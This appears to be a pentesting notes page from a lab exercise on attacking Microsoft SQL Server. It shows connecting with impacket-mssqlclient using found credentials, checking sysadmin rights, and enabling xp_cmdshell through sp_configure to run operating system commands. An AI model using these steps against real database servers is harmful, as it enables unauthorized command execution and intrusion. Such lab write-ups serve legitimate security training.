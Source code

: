 # MS-SQL (Microsoft SQL Service)

## Enumeration

### Using Impacket&#x20;

Using impacket-mssqlclient we can connect to the MS-SQL service using the username/user-id and password from a possible publicly available production `.dtsConfig` files.&#x20;

```awk
impacket-mssqlclient ARCHETYPE\sql_svc@10.129.95.187 -windows-auth
```

### Check user access control

```
SELECT is_srvrolemember('sysadmin');
```

If it returns 1, it is True and the user can run cmd commands.



## Exploitation

### Command execution via xp\_cmdshell()

Once we have access to the SQL database we can check if we can use the command using:

```sql
 EXEC xp_cmdshell 'net user';
```

If we get the following result, we don't have access to the command and we need to reconfigure the service:

{% code overflow="wrap" %}
```bash
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```
{% endcode %}

**Reconfiguration steps**

* Set the show advanced options to TRUE.&#x20;

```sql
EXEC sp_configure 'show advanced options', 1;
```

* Reconfigure using the RECONFIGURE command.

```sql
RECONFIGURE;
```

* Check if sp\_configure is working with advanced options

```
sp_configure;
```

* Allow xp\_cmdshell using the command:

```sql
EXEC sp_configure 'xp_cmdshell', 1;
```

* Run reconfigure again to allow the xp\_cmdshell method. Test if its working or not using the above diagnosis command.









